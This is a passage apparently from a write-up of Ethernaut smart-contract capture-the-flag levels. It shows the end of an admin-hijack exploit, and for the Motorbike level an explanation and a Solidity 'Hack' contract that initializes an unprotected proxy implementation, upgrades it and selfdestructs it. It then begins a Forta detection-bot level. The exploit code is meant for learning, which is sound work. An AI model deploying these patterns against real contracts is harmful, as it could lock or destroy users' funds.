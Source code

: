 ```

        // withdraw
        wallet.execute(msg.sender, 0.002 ether, "");

        // set admin
        wallet.setMaxBalance(uint256(uint160(msg.sender)));
    }
```

# 25. Motorbike

- Here the important thing we have to do is going through the upgrader variable then we will see that initialize() was not called by the implementaion contract and upgrader is empty.
- When we call the initialize() we can become the upgrader and change the implementation contract to our malicious contract and calling selfdestruct on that makes the proxy into a permananent block where the funds send to the Motorbike will get stuck in that contract.
- Here we can get the address of implementation contract by passing `_IMPLEMENTATION_SLOT` into `web3.eth.getStorageAt()` as `web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")`.

```
interface IEngine {
    function upgrader() external view returns(address);
    function initialize() external;
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable;
}
contract Hack {

    function pwn(IEngine target) external {
        target.initialize();
        target.upgradeToAndCall(address(this), abi.encodeWithSelector(this.kill.selector));
    }

    function kill() external {
        selfdestruct(payable(address(0)));
    }
}
```

# 26. Double entry point

- This contract features a Forta contract where any user can register its own detection bot contract.
- So here we need to add some special code into that detection bot that can find this vulnerability.
